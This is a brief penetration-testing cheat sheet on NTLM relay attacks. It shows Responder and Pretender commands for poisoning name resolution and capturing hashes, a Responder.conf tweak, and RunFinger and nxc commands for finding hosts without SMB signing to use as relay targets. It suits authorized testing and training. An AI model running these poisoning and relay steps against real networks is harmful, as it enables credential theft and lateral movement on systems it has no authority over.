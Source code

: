 ```yaml
---
description: Responder | MitM | Authenticaton | NTLMv2
---
```


# NTLM Relay

{% hint style="danger" %}
We can abuse a default setting in Windows when the DNS server cannot respond to a DNS request and we use `Responder` to intercept and poison requests and then grant us a Man-In-The-Middle position to perform relay attacks. \
\
Perform relays with ntlmrelayx either by poisoning with Responder or coercing using printerbug, PetitPotam, Coercer or even mssqlclient.py.&#x20;
{% endhint %}

### <mark style="color:yellow;">Responder</mark>

```bash
# Analyze mode for recon
sudo python3 Responder.py -I ens192 -A

# Poisoning mode
sudo python3 Responder.py -I ens192

# Or using Pretender
./pretender -i ens192 --dry
```

{% hint style="info" %}
Analyze mode is also useful to capture traffic/hashes of protocols like SMB, MSSQL, HTTP, FTP, IMAP, and LDAP\
\
Its possible to turn off SMB or specify IP in the Responder.conf file

```
sed -i "s/SMB = On/SMB = Off/" Responder.conf
cat Responder.conf | grep -i smb

SMB = Off
```
{% endhint %}

#### Check if SMB Signing is disabled

```bash
# Check if SMB signing is disabled
python3 RunFinger.py -i 172.16.117.0/

# With nxc
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
